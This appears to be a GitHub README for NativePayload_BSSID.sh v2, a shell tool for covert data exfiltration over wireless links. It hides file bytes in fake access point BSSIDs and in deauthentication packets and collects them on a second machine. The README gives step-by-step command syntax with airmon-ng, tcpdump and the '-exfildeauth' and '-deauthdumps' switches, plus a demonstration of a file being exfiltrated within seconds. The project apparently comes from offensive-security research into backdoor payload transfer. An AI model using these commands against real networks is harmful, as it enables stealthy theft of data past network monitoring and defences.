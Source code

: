 # NativePayload_BSSID.sh v2

Exfiltration via Wireless DeAuthentication Packets from Client to Server on AIR (without user-pass or Wifi Connection & very fast)


Article/Pdf and New video will Publish here soon...

Video[1] , NativePayload_BSSID.sh v2 (step by step) : https://www.youtube.com/watch?v=rg-O4RKt9OA

as you can see in this "Picture 1", with this switch "help" you can see Help information : ./NativePayload_BSSID.sh help 

![](https://github.com/DamonMohammadbagher/NativePayload_BSSID/blob/master/Chapter%209%20-%20Transferring%20Backdoor%20Payload%20by%20Wireless%20Traffic%20-BSSID/NativePayload_BSSIDv2/NativePayload_BSSID%20help.png)
Picture 1:

# NativePayload_BSSID.sh (help):  

   NativePayload_BSSID.sh v1 Syntax: 

    Step1 (Client Side): 
    Syntax            :./NativePayload_BSSID.sh -f [text-file] [Fake-AP-Name] [MonitorMode-Interface]
    Example [System A]:./NativePayload_BSSID.sh -f mytext.txt myfakeAP Wlan3mon

    Step2 (Server Side):
    Syntax            :./NativePayload_BSSID.sh -s [Wifi-Interface] [Exfil-Dump-file]
    Example [System B]:./NativePayload_BSSID.sh -s wlan0 ExfilDumped.txt

    Description: with Step1 (system A) you will inject bytes for (mytext.txt) file to BSSID for Fake AP in this case (myfakeAP) ,
    with Step2 on (system B) you can have this text file via Scanning Fake AP on AIR by Wireless traffic (Using iwlist tool)
    Note : before step1 you should make Monitor-Mode Interface (WlanXmon) by this command for example : airmon-ng start wlan3 
    --------------------------------------------------------
   NativePayload_BSSID.sh v2 Syntax I: 

    Step1 (Server Side):
    Syntax            :./NativePayload_BSSID.sh -deauthdumps [FakeAP-ESSID] [MonitorMode-Interface] [Wifi-Channel] [FakeAP-BSSID]
    Example [System B]:./NativePayload_BSSID.sh -deauthdumps MyFakeAP wlan1mon 7 00:12:32:44:64:19

    Step2 (Client Side):
    Syntax            :./NativePayload_BSSID.sh -exfildeauth [text-file] [Target-FakeAP-BSSID] [Wifi-Interface] [Wifi-Channel] [dbg]/[fast]/[faster]
    Example [System A]:./NativePayload_BSSID.sh -exfildeauth mypayload.txt 00:12:32:44:64:19 wlan2 7 faster

    Description: with Step1 (system B) you will have Fake AP via wlanXmon interface also DeAuth Packets will Dump via Tcpdump
    tool in this step in server side , 
    Note: before step1 you should make WlanXmon Monitor-Mode Interface by this command : airmon-ng start wlanX 
    with Step2 your Client (system A) will send that text file to (Target/system B) via DeAuth Packets On AIR Directly...
    note: via Step2 your Payload Injected to Client.BSSIDs in DeAuth Packets.
    --------------------------------------------------------
   NativePayload_BSSID.sh v2 Syntax II:
   
    (Server/Client Side):
    Syntax :./NativePayload_BSSID.sh -exfilserver
    Description: for more information please read PDF/Article on Github... (soon)
    --------------------------------------------------------

--------------------------------------------------------------------------------------

# NativePayload_BSSID.sh v2 
# and DeAuth Method (step by step): 

Step 1 :
with switch "-deauthdumps" you will have Fake AP via wlanXmon interface also DeAuth Packets will Dump via Tcpdump
tool in this step in server side.

Note: before step1 you should make WlanXmon Monitor-Mode Interface by this command : airmon-ng start wlanX 
 
    Step1 (Server Side):
    Example [System B]:./NativePayload_BSSID.sh -deauthdumps MyFakeAP wlan1mon 7 00:12:32:44:64:19


![](https://github.com/DamonMohammadbagher/NativePayload_BSSID/blob/master/Chapter%209%20-%20Transferring%20Backdoor%20Payload%20by%20Wireless%20Traffic%20-BSSID/NativePayload_BSSIDv2/NativePayload_BSSID%20Step1.png)

Step 2 :
with Step2 your Client (system A) will send that text file to (Target/system B) via DeAuth Packets On AIR Directly...
note: via Step2 your Payload Injected to Client.BSSIDs in DeAuth Packets.

    Step2 (Client Side):
    Example [System A]:./NativePayload_BSSID.sh -exfildeauth mypayload.txt 00:12:32:44:64:19 wlan2 7 faster

![](https://github.com/DamonMohammadbagher/NativePayload_BSSID/blob/master/Chapter%209%20-%20Transferring%20Backdoor%20Payload%20by%20Wireless%20Traffic%20-BSSID/NativePayload_BSSIDv2/NativePayload_BSSID%20Step2.png)

as you can see in "Picture 3" after 5 seconds that text file "3.txt" Exfiltrated from client to server on AIR ,(very simple).

![](https://github.com/DamonMohammadbagher/NativePayload_BSSID/blob/master/Chapter%209%20-%20Transferring%20Backdoor%20Payload%20by%20Wireless%20Traffic%20-BSSID/NativePayload_BSSIDv2/NativePayload_BSSID%20Step4.png)

Article and Pdf File will Publish here soon...

Video STEP BY STEP : https://www.youtube.com/watch?v=rg-O4RKt9OA

